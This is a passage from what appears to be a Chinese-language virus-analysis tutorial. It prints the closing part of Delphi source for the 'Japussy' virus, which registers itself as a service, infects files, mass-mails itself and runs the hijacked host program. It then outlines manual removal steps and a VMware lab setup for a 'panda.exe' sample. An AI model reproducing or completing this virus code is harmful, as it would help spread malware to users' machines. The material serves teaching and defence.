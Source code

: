 ```
    Sleep(1000 * 60 * 5); //睡眠5分钟
  end;
end;
```

主程序开始

```
{ 主程序开始 }
begin
  if IsWin9x then //是Win9x
    RegisterServiceProcess(GetCurrentProcessID, 1) //注册为服务进程
  else //WinNT
  begin
    //远程线程映射到Explorer进程
  end;
  //如果是原始病毒体自己
  if CompareText(ExtractFileName(ParamStr(0)), 'Japussy.exe') = 0 then
    InfectFiles //感染和发邮件
  else //已寄生于宿主程序上了，开始工作
  begin
    TmpFile := ParamStr(0); //创建临时文件
    Delete(TmpFile, Length(TmpFile) - 4, 4);
    TmpFile := TmpFile + #32 + '.exe'; //真正的宿主文件，多一个空格
    ExtractFile(TmpFile); //分离之
    FillStartupInfo(Si, SW_SHOWDEFAULT);
    CreateProcess(PChar(TmpFile), PChar(TmpFile), nil, nil, True,
      0, nil, '.', Si, Pi); //创建新进程运行之
    InfectFiles; //感染和发邮件
  end;
end.
```

### 病毒的防护措施及解决方案

#### 手工查杀

##### 流程

1、排查可疑进程。因为病毒往往会创建出来一个或者多个进程，因此我们需要分辨出哪些进程是由病毒所创建，然后删除可疑进程。

2、检查启动项。病毒为了实现自启动，会采用一些方法将自己添加到启动项中，从而实现自启动，所以我们需要把启动项中的病毒清除。

3、删除病毒。检查完启动项后，我们基本就能够确定病毒主体的位置，这样，我们就可以顺藤摸瓜，从根本上删除病毒文件。

4、修复被病毒破坏的文件。这一步一般来说无法直接通过纯手工完成，需利用相应的软件来完成，这里我们不做过多的深究。

##### 环境准备

- Windows 7 企业版

- VMware Workstation 12

- panda.exe
